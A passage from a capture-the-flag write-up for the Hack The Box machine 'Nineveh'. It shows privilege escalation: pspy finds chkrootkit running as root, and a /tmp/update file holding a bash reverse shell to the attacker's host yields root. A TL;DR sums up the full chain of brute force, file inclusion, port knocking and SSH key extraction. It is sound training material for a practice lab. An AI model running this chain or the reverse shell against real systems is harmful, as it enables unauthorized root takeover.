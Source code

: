 ## Privilege escalation

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ cp /opt/pspy-binaries/pspy32 .
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ python3 -m http.server
```

```bash
amrois@nineveh:/tmp$ wget http://10.10.14.16:8000/pspy32
amrois@nineveh:/tmp$ chmod +x pspy32
amrois@nineveh:/tmp$ ./pspy32
...
CMD: UID=0    PID=11138  | /bin/sh /usr/bin/chkrootkit
...
```

Chkrootkit is executed as root and this application has a known privilege escalation

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ searchsploit chkrootkit
...
Chkrootkit 0.49 - Local Privilege Escalation | linux/local/33899.txt
...
```

Chkrootkit executes the file /tmp/update as root if /tmp isn't mounted as noexec.

```bash
amrois@nineveh:/tmp$ echo '#!/bin/bash
>
> bash -i >& /dev/tcp/10.10.14.16/443 0>&1' > update
amrois@nineveh:/tmp$ chmod +x update
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:50624.
bash: cannot set terminal process group (17369): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# cat /root/root.txt
8a2b495*************************
```

## TL;DR

- Gobuster to find pages on `http:80` and `https:443`
- Brute force login to: `http://nineveh.htb/department`
- Use local file inclusion on `http://nineveh.htb/department` to find order of ports to knock
- Download image shown on `https://nineveh.htb/secure_notes` and extract private key used for SSH
- Knock ports and use private key file to gain access as amrois
- Use vulnerability in chkrootkit to get root
